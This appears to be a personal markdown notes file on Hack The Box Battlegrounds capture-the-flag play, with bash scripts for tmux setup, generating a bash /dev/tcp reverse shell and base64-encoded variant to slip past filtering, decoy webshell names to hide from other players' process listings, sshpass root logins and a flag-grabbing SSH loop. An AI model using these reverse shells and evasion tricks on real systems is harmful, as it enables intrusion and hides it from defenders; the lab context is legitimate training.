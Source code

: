 # Battlegrounds 

**"If you know the enemy and know yourself, you need not fear the results of a hundred battles. If you know yourself but not the enemy, for every victory gained you will also suffer defeat."* - Sun Tzu, Art of War.

Try to, at some point I want to master hacking in a battlegrounds context. This hope is that this will morph into an instructional Art of War for Hacking. From absolute novice to master.

## Ippsec Introductional Scripting

[Hack The Box Hacking Battlegrounds - Cyber Mayhem Gameplay with Ippsec](https://www.youtube.com/watch?v=o42dgCOBkRk)

This section is notation and inpsired by Ippsec's "{"workflow"}" from around Oct 2020. Methods change and this document should also reflect that knowledge is power. Knowing your enemy and what they know is power. Defense and Attack are both in a context of conflict are the same thing - action to end conflict.

Requirements:
1. Tmux or equivalent and setup to manage connections, information and tools.
Although not stated by Ippsec a tmux scripting to setup a terminal multiplexer of 
```bash
#!/bin/bash

tmux new -s Battleground 
tmux new-window -t SERVER
tmux new-window -t HOME
tmux new-window -t BLUE
tmux new-window -t MSF
tmux new-window -t ATK

tmux send-keys -t HOME 'cp bg/ /tmp; cd tmp/bg' #setup 
tmux send-keys -t HOME './startBGs.sh'
tmux send-keys -t MSF 'msf'
```

2. StartBG.sh 
```bash
#!/bin/bash

cp -r www-skel/ www/
# Change $IP to another
sed -i "s/$IP/$1/g" www/*
# Copy decoy variants names of webshells
cp www/$reverseshell www/$decoy-name
cp www/$reverseshell www/$decoy-name 
echo "bash -c 'bash -i >& /dev/tcp/$1/$port 0>&1'" >> www/shell.sh
SHELL=$(cat www/shell.sh | base64 -w 0)
echo "echo -n '$SHELL' | bash64 -d | bash" >> www/shell.b64.sh
```
IP variable in the third line must be changed to match a default script variable.
The b64 version is to bypass badchars and filtering.  
Decoy naming: the variable in this script is such that the naming of the shell in the file directory it is run from or process directory `/proc/$int` as process. The file names below were given as examples of ways to avoid detection from other players. Each player has some idea of what is regularly in the www directory so a wordpress file would seem ordinary were as long string of 'a's could clutter the process tree or overflow to the textual display obfuscating another players `ps -aux` command.
```bash
decoy-name=#of the following
wp-load.php
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaah-RCE.php.gif
```

3. accesscastle.sh $IP $PASSWORD
```bash
#!/bin/bash
# Ippsec castle access script from Hack the Box Hacking Battlegrounds video
# If you dont have the -o managing ssh will be hell 
sshpass -p $2 ssh -o GlobalKnownHostsFile=/dev/null -o UserKnownHostsFile=/dev/null -o StrictHostKeysChecking=no root@$1
```

4. getflags.sh 
This script will access the castles access the hostkeys and print out the flags. It will ask for a password if the hostkey is NOT there.
```bash
#!/bin/bash
for i in $(seq 105 108); do
        echo "10.10.110.$i"
        ssh -o "BatchMode=Yes" -o "StrictHostKeyChecking=no" \
                -o "GlobalKnownHostsFile=/dev/null" -o "UserKnownHostsFile=/dev/null" \
                -i $privatekey \ # private key directory
                root@10.10.110.$i "cat /root/flag.txt; echo; cat /opt/flag.txt; echo" 2>/dev/null
        done
```

5. Metasploit is efficient. Hacking without makes you better; Metasploit streamline exploit execution chain. Speed and time are important and without metasploit research and script fixing takes time.  Shell stablisation is plain for defenders to see, with metasploit shell there is no need to stablise.

6. Create more panes for Tmux 

8. Configure Burp proxy(if using firefox to Hack from) `Proxy -> Options -> Intercept Client Request -> Add -> Match Relationship = IP address; Match condition 10.10.110.100-120` and disabling Websockets Messages on the same Proxy tab, Options `Intercept WebSockets Messages -> untick Intercept client-to-server messages & untick Intercept server-to-client messages`. This stop the background page slowing down request cycling stopping you from intercepting Battleground relevant pages.

## On Castle Enumeration

```bash
ps -aef --forest


```
## References

[Hack The Box Hacking Battlegrounds - Cyber Mayhem Gameplay with Ippsec](https://www.youtube.com/watch?v=o42dgCOBkRk)
[Tmux Scripting](https://tao-of-tmux.readthedocs.io/en/latest/manuscript/10-scripting.html)



